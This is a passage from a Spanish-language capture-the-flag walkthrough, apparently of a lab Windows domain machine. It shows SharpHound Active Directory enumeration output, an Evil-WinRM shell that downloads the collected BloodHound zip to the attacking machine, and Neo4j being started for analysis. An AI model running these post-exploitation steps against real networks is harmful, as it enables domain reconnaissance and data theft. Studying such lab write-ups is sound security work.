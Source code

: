 ```bash
2023-07-30T16:48:34.0026206-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 42 MB RAM
2023-07-30T16:48:48.9025684-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2023-07-30T16:48:49.0431891-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2023-07-30T16:48:49.3713065-07:00|INFORMATION|Status: 162 objects finished (+162 3.6)/s -- Using 47 MB RAM
2023-07-30T16:48:49.3713065-07:00|INFORMATION|Enumeration finished in 00:00:45.7155633
2023-07-30T16:48:49.6369426-07:00|INFORMATION|Saving cache with stats: 119 ID to type mappings.
 119 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-07-30T16:48:49.6681935-07:00|INFORMATION|SharpHound Enumeration Completed at 4:48 PM on 7/30/2023! Happy Graphing!
```

Y obtenemos un archivo `zip`.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\BloodHound> dir

    Directory: C:\Users\svc-alfresco\Desktop\BloodHound

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/30/2023   4:48 PM          18880 20230730164846_BloodHound.zip
-a----        7/30/2023   4:48 PM          19744 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----        7/30/2023   4:46 PM        1046528 SharpHound.exe
```

Descargamos el archivo `zip` a nuestra maquina atacante.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\BloodHound> download C:\Users\svc-alfresco\Desktop\BloodHound\20230730164846_BloodHound.zip .
                                        
Info: Downloading C:\Users\svc-alfresco\Desktop\BloodHound\20230730164846_BloodHound.zip to 20230730164846_BloodHound.zip
                                        
Info: Download successful!
```

Ejecuto el siguiente comando para administrar y gestionar una base de datos `Neo4j`.

```bash
❯ neo4j console
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.

[...]
```
